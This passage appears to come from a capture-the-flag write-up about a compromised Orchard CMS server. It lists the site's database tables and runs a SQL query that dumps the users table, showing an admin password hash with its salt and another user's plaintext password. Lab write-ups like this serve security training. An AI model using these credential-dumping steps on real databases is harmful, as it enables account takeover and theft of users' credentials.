 ```
	blog_Orchard_Users_UserPartRecord  
	blog_Orchard_Roles_PermissionRecord 
	blog_Orchard_Roles_RoleRecord 
	blog_Orchard_Roles_RolesPermissionsRecord
	blog_Orchard_Roles_UserRolesPartRecord   
	blog_Orchard_Packaging_PackagingSource   
	blog_Orchard_Recipes_RecipeStepResultRecord  
	blog_Orchard_OutputCache_CacheParameterRecord 
	blog_Orchard_MediaProcessing_ImageProfilePartRecord
	blog_Orchard_MediaProcessing_FilterRecord 
	blog_Orchard_MediaProcessing_FileNameRecord  
	blog_Orchard_Widgets_LayerPartRecord 
	blog_Orchard_Widgets_WidgetPartRecord  
	blog_Orchard_Comments_CommentPartRecord 
	blog_Orchard_Comments_CommentsPartRecord   
	blog_Orchard_Taxonomies_TaxonomyPartRecord  
	blog_Orchard_Taxonomies_TermPartRecord 
	blog_Orchard_Taxonomies_TermContentItem
	blog_Orchard_Taxonomies_TermsPartRecord 
	blog_Orchard_MediaLibrary_MediaPartRecord
	blog_Orchard_Blogs_BlogPartArchiveRecord                                                                               
(62 rows affected)

```

The `blog_Orchard_Users_UserPartRecord` table looks like what we need.

```
1> USE orcharddb;
2> go
1> SELECT * FROM blog_Orchard_Users_UserPartRecord;
2> go
Id         
UserName 
Email     
NormalizedUserName 
Password    
PasswordFormat 
HashAlgorithm    
PasswordSalt   
RegistrationStatus  
EmailStatus    
EmailChallengeToken 
CreatedUtc          LastLoginUtc        LastLogoutUtc      
-------------------------------------------------------------------------------
2
admin  
admin   
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==  
Hashed   
PBKDF2   
UBwWF1CQCsaGc/P7jIR/kg==  
Approved     
Approved  
NULL  
Sep  1 2017 01:44PM Sep  1 2017 02:03PM Sep  1 2017 02:06PM
15
James   
james@htb.local  
james      
J@m3s_P@ssW0rd!  
Plaintext   
Plaintext  
```